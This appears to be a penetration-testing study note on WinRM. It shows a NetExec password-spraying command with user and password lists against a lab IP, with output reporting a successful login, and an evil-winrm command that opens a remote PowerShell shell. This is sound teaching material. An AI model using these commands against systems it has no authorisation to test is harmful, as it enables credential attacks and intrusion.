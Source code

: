 # WinRM

## NetExec

A tool that can be used for password attacks against WinRM is **NetExec**, which can also be used for other protocols such as **SMB**, **LDAP**, **MSSQL**, and others.

An example of attacking a WinRM endpoint using NetExec:

```shell
clue@machine[~]$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

## Evil-WinRM

```shell
clue@machine[~]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

If the login was successful, a terminal session is initialised using the **PowerShell Remoting Protoco**l (**MS-PSRP**), which simplifies the operation and execution of commands.
